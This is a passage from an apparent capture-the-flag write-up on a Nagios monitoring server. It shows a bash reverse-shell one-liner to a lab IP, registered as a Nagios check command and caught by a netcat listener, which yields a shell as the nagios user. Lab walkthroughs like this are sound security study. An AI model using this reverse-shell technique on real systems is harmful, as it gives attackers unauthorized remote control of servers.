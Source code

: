 ```
bash -c 'bash -i >& /dev/tcp/10.10.14.40/1337 0>&1'
```

<figure><img src=".gitbook/assets/1HFcup87wCcM_sDKNNd7EiA.webp" alt=""><figcaption></figcaption></figure>

Go to **Monitoring > Services > Add New**.

<figure><img src=".gitbook/assets/1TYr-pl-BYEw_tLlfj62vhQ.webp" alt=""><figcaption></figcaption></figure>

In check command give the newly added command you created.

Before running **“RUN CHECK COMMAND”** option, You have to start netcat listener on the terminal.

```
┌──(Batman㉿GC)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.40] from (UNKNOWN) [10.10.11.248] 35532
bash: cannot set terminal process group (75693): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$
```
